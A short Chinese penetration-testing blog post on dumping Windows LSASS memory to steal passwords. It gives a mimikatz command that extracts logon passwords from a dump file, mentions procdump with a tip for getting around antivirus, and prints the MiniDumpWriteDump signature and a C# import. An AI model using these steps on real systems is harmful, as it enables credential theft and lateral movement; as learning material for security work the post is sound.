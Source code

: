 ```yaml
---
layout: post
title: MiniDumpWriteDump
---
```




## 0x01

常见内网渗透会经常遇到抓取windows密码的场景，本文用来学习使用内存转储的方式来获取windows密码。

## 0x02

我们可以将转储LSASS的进程内存。Windows允许我们创建转储文件，它是给定进程的快照。此转储包括加载的库和应用程序内存。

在任务管理器中直接转储就可以，他将会生成一个dmp的文件，然后拿回本地用Minikatz解密即可。



![img](https://gitee.com/a4m1n/tuchuang/raw/master/pic/clipboard.png)

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

这样做的缺点是需要图形化界面，需要登录到管理员桌面，然后操作，渗透中常用的方法有sqldump,procdump,不过Procdump在遇到某些AV时候会被拦截，不过选择要procdump的pid来转储时也可以达到Bypass的效果

## 0x03

其实不难发现，Procdump和任务管理器的这两种方法都是使用了MiniDumpWriteDump的API

```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,      //获取 LSASS的句柄
  DWORD                             ProcessId,     //获取 LSASS的进程ID号
  HANDLE                            hFile,		   //要写入信息的文件句柄
  MINIDUMP_TYPE                     DumpType,      //要生成的信息类型
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  //指向MINIDUMP_EXCEPTION_INFORMATION 结构的指针
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  //指向MINIDUMP_USER_STREAM_INFORMATION 结构的指针 
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam   //指向MINIDUMP_CALLBACK_INFORMATION 结构的指针
);
```

其实并不需要全部的api，使用前面4个即可，然后看下需要的Import

![image-20210811173030733](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811173030733.png)

```
static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, int DumpType, ref MINIDUMP_EXCEPTION_INFORMATION ExceptionParam,IntPtr UserStreamParam, IntPtr CallbackParam);
```

